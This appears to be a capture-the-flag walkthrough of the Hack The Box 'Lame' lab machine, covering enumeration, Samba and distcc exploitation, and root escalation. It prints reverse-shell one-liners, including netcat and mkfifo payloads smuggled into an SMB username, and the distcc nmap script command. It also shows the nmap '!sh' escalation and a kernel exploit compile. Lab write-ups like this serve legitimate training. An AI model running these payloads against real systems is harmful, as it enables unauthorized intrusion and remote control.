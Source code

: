 # Lame HTB, IP address: 10.10.10.3

## Initial Enumeration 
 
 1. **nmap -sC -sV 10.10.10.3** 
 
![lame1](https://user-images.githubusercontent.com/15195048/93899974-bab02500-fca9-11ea-87c0-4ab4a045c096.png)
----------------------------------------------------------------------------------------------------------------------------------------------
## Port Enumeration

## 1.Enumerating FTP

vulnerable _vsftpd 2.3.4_ , anonymous login allowed
According to nmap script the ftp service is not vulnerable so the version would possibly be a banner.
However, we will try metasploit in order to exploit this vulnerability.

**Metasploit**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfdb start
msfconsole
>search vsftpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![lame2](https://user-images.githubusercontent.com/15195048/93902144-167bad80-fcac-11ea-994e-7fff3d2e861e.png)


Yes, indeed this is a banner so it wont work!!

## 2.Enumerating SMB on port 139 & 445

**1.enum4linux -a 10.10.10.3**


**2.smbclient -L \\10.10.10.3**
 error NT_STATUS_CONNECTION_DISCONNECTED
 
  SMBClient generating an error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
  Samba has turned off default SMBv1 support as of September of last year.
  
**--option='client min protocol=NT1'**

**smbclient //10.10.10.x/ --option='client min protocol=NT1'**

Go to ur /etc/samba/smb.conf under the [global] section:
client min protocol = NT1
That allows smbclient to work against SMBv1 shares.

**3.smbmap -H 10.10.10.3**
 
 

#Privilege Escalation no1

# A)Metasploit
Metasploit
msf5 > search samba 3.0.20
use exploit/multi/samba/usermap_script

**Rooted**

# B)Manually exploit SMB

smbclient 10.10.10.3/tmp
smb>logon "/=`nohup nc -nv 10.10.14.4 4444 -e /bin/sh`"


**Attacker:** 
nc -lvpn 4444

**Rooted**

# Samba exploit script written in Python
If you find an exploit written in Python you could modify the variables, or you can run line by line yourself.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$pythonn
>>> payload = '
>>> from smb.SMBConnection import SMBConnection
>>> payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.X 9999 >/tmp/f' Attacker IP and port
>>> username = "/=`nohup " + payload + "`"
>>> connection = SMBConnection(username, "", "", "")
>>> connection.connect("10.10.10.3",445)  Victim IP and port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lnvp 9999

**Rooted**
-----------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation no2
Enumerating port 3621 (distccd)
 
 
 
Metasploit module:
searchsploit -m exploits/multiple/remote/9915.rb

Let’s see if a non-metasploit one is on the internet:

NMAP Script
ls -la /usr/share/nmap/scripts/*distcc*
/usr/share/nmap/scripts/distcc-cve2004-2687.nse


**nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.X 9999'" 10.10.10.3 -Pn**

**Attacker:**
$ nc -lnvp 9999

# A)GTFobins nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2$ id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# B)Kernel Exploit
Kernel Exploit
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

Search kernel exploits: 8572.c

Send with python server the exploit and get it from the victim machine
gcc -o exp 8572.c #compile it and run it

**UDEV Modern Linux distributions** are capable of identifying a hardware component which is plugged into an already-running system. There are a lot of user-friendly distributions like Ubuntu, which will automatically run specific applications like Rhythmbox when a portable device like an iPod is plugged into the system.

*Netlink is used to transfer information between the kernel and user- space processes.*
